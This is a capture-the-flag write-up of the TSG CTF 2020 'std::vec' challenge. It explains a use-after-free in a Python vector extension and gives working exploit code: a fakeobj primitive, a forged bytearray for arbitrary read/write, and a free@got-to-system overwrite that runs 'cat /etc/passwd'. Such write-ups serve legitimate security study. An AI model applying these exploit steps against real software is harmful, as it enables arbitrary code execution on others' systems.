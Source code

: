 # TSG CTF 2020 - std::vec
In TSG CTF 2020 I got first blood on a challenge called `std::vec`. It was quite simple but the overall 'feel' of the challenge was very neat. Shout out to [moratorium08](https://twitter.com/moratorium08), the author of this challenge!

# Vulnerability
The vulnerability is easy to spot, as it is already introduced in other challenges. A very similar bug exists in [this challenge](https://github.com/pr0cf5/CTF-writeups/tree/master/2019/fbctf/babylist) from facebook ctf 2019. Basically, it occurs because the private fields of a `std::vector` is copied to another structure. When a `std::vector` is expanded, the original backing memory is freed. Therefore, the private fields copied to another location becomes a dangling pointer. Reading/writing from that pointer triggers uaf.

# Exploitation - Triggering the bug
```python
victim = stdvec.StdVec()
for i in range(0x100):
    victim.append(0)
victim_iter = iter(victim)

# deallocate the back of iter1
for i in range(0x1000):
    victim.append(0)

obj = next(victim_iter)
```

In this POC, `victim_iter` is a variable that contains the freed pointers. In the first loop, the victim vector is expanded to accomodate 0x100 entries, which is equivalent to 0x800 bytes since each entry is a `PyObject *` and `sizeof(PyObject *) = 8`. Afterwards the iterator is extracted from the vector. 


In the second loop, the vector is expanded to 0x8000 bytes and the original backing memory is freed. Therefore the pointers in `victim_iter` become dangling pointers. In the last line, 8 byte read from freed memory occurs. This causes a crash.

The following code causes a crash at a specific address.

```python
victim = stdvec.StdVec()

for i in range(0x100):
    victim.append(0)

victim_iter = iter(victim)

# deallocate the back of iter1
for i in range(0x1000):
    victim.append(0)

reclaim = bytearray(0x800)
reclaim[0:8] = p64_bytearray(0xdeadbeef)

obj = next(victim_iter)
```

This causes a crash because the `reclaim` bytearray reclaims the 0x800 bytes used in `victim_iter`. The first 8 bytes of the reclaimed memory becomes 0xdeadbeef, so `next(victim_iter)` returns (PyObject *)0xdeadbeef. However when returning a `PyObject` it increments the refcount by 1, and this write access causes a crash. 

Now we can construct the `fakeobj` primitive based on this POC.
```python
def fakeobj(address):
    victim = stdvec.StdVec()

    for i in range(0x100):
        victim.append(0)

    victim_iter = iter(victim)

    # deallocate the back of iter1
    for i in range(0x1000):
        victim.append(0)

    reclaim = bytearray(0x800)
    reclaim[0:8] = p64_bytearray(address)

    obj = next(victim_iter)
    return obj
```

Basically the `fakeobj` function converts an address into a python object. If the contents in that address is well controlled we can forge an arbitrarty python object which is an extremely powerful primitive.

A way to put controlled data at a known address is to use python `bytes`. In `bytes` the content is inlined in the structure at offset 0x20. This can be seen in the following definition. (Although I figured this out intuitively by looking at gdb during the ctf)

```c
typedef struct {
    PyObject_VAR_HEAD
    Py_hash_t ob_shash;
    char ob_sval[1];

    /* Invariants:
     *     ob_sval contains space for 'ob_size+1' elements.
     *     ob_sval[ob_size] == 0.
     *     ob_shash is the hash of the string or -1 if not computed yet.
     */
} PyBytesObject;
```

Therefore, by providing `id(bytes_object) + 0x20` to `fakeobj` we can forge an arbitrary python object.

# Exploiitation - getting arbitrary write
To get arbitrary write, we forge a bytearray object with a user controlled backing vector pointer. The structure of a bytearray is the following.

```c
struct PyByteArrayObject {
    int64_t ob_refcnt;   /* can be basically any value we want */
    struct _typeobject *ob_type; /* points to the bytearray type object */
    int64_t ob_size;     /* Number of items in variable part */
    int64_t ob_alloc;    /* How many bytes allocated in ob_bytes */
    char *ob_bytes;      /* Physical backing buffer */
    char *ob_start;      /* Logical start inside ob_bytes */
    int32_t ob_exports;  /* Not exactly sure what this does, we can ignore it */
}
```

By controlling `ob_bytes` and `ob_start` we can read/write at arbitrary addresses. The following code implements the foring of a bytearray.

```python
string = p64(0xff)+p64(id(type(bytearray(0))+p64(0x100)+p64(0x100)+p64(someaddr)*2
faked = fakeobj(id(string) + 0x20)
```

Also, since we want to obtain arbitrary read/writes multiple times, we use the following strategy. We first create a slave bytearray. Then, we forge a master bytearray using `fakeobj`. The master bytearray's `ob_bytes` points to the address of slave, so writing to master alters the structure of slave. Therefore we can set the write address by writing at offset 0x20 of master, and writing to slave afterwards. The following code implements this.

```python
def arbitrary_write(address, value):
	master[0x20:0x28] = p64_bytearray(address)
	master[0x28:0x30] = p64_bytearray(address)
	slave[0:0x8] = p64_bytearray(value)
```

# Final
Now we can write an exploit by glueing all of the primitives above. However, there are a few issues to resolve.

First, we can't use the functions `iter` and `next` because all builtins are removed. Therefore, we replace the code with the following code.

```python
counter = 0
for x in victim:
	# this frees the back of the current iterator
	for j in range(0x1000):
		victim.append(0)
	reclaim = bytearray(0x800)
	reclaim[0x8:0x10] = p64_bytearray(address)
	if counter == 1:
		return x
	counter += 1
```

Basically it is an implementation that doesn't use `iter` and `next` and uses the internals of forloops. 

Second, we can't use the `type` function for the same reason in 1. However, since there is no PIE in the python binary and the type object is located in the data section of the binary, the `type` object is always located at the same address. Therefore we can print the id of `type(bytearray(0)` locally and use it for the exploit. I found it was 10595392.

Lastly, we need to find a function pointer to overwrite. I used `free@got` for this. To free something whose contents we can control, I hand-fuzzed various methods and figured out that printing a string frees it. So, `print("cat /etc/passwd")` triggers `system("cat /etc/passwd")` if we overwrite `free@got` with `system`.

[This](./exploit.py) is my final exploit. I hope it is a good reference for others.